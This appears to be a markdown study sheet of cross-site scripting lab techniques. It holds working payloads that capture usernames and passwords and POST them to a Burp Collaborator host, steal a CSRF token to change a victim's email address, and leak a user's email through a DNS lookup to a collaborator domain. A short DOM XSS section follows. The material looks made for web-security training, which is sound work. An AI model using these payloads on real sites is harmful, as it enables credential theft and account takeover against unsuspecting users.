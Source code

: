 ### XSS payload to steal username and password
Submit the following payload
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### XSS payload to perform csrf XSS
Log in into the page with any credentials

View the source page and notice a POST request to /my-account/change-email/ has to be made and also there's an anti-csrf token in a hidden input called token

Submit the payload in the xss vulnerability source
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
The payload will make anyone who views the comment issue a POST request to change their email address to test@test.com

### XSS payload to find other users email
Submit the following payload into any XSS vulnerable form
```
<script>
    var email = (document.getElementById("email").innerHTML).replace("@","-at-");
    var my_address = "burp-collaborator-domain";
    var request = new XMLHttpRequest();
    request.open("GET","http://"+email+"-user-"+my_address,false);
    request.send();
</script>
```
The payload will make the webserver to make a DNS lookup on the collaborator domain and in hope that the webserver's user's email will also be displayed in the DNS logging

## Exploiting DOM XSS
### DOM XSS in document.write sink using source location.search
Submit a random alphanumeric string into the search box
